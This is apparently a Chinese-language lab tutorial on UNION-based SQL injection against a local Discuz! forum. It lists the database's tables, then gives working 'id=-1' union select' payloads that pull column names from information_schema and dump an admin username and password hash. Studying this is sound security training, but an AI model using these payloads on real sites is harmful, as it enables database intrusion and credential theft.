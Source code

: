 分别为discuz_common_admincp_cmenu,

discuz_common_admincp_group,

**discuz_common_admincp_member,**

discuz_common_admincp_perm,

discuz_common_admincp_session,

discuz_common_admingroup,

discuz_common_adminnote,

discuz_common_advertisement,

discuz_common_advertisement_custom,

discuz_common_banned,

discuz_common_block,

discuz_common_block_favorite,

discuz_common_blo 

==显然此处被截断了`group_concat()`已经输出最大长度，MYSQL内部对这个是有设置的，默认长度是1024==

经过搜索[Discuz! 3.2 中各数据库表的作用_Frank看庐山的博客-程序员宝宝](https://www.cxybb.com/article/qq_14989227/78184690)可以知道`pre_common_member` 是用户表，密码是随机生成记录，实际记录在UCenter。因此推测本地`discuz`的用户表名应该是`discuz_common_member` 。

在`information_schema.columns`中查询`discuz`库中的`discuz_common_member`表的所有列名：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='discuz_common_member' and table_schema='discuz'--+
```

![](https://gitee.com/YatJay/image/raw/master/img/202201310905413.png)

得到`discuz`库中的`discuz_common_member`表的所有列名分别是：

在数据表`discuz.discuz_common_member`中查询指定数据`username`和`password`，并且限制显示的数据条目数量

```sql
id=-1' union select 1,username,password from discuz.discuz_common_member limit 0,1--+
```

![](https://gitee.com/YatJay/image/raw/master/img/202201310915972.png)

```sql
id=-1' union select 1,username,password from discuz.discuz_common_member limit 1,1--+
```

![](https://gitee.com/YatJay/image/raw/master/img/202201310911451.png)

查到`discuz.discuz_common_member`表中只有一条数据即:`username`为`admin`，`password`为`785abd34df1042f9d15efe598b926ebc`(已被加密)。

## 高权限注入文件读写操作测试



## 魔术引号开启后相关操作测试



## 相关自定义代码过滤操作测试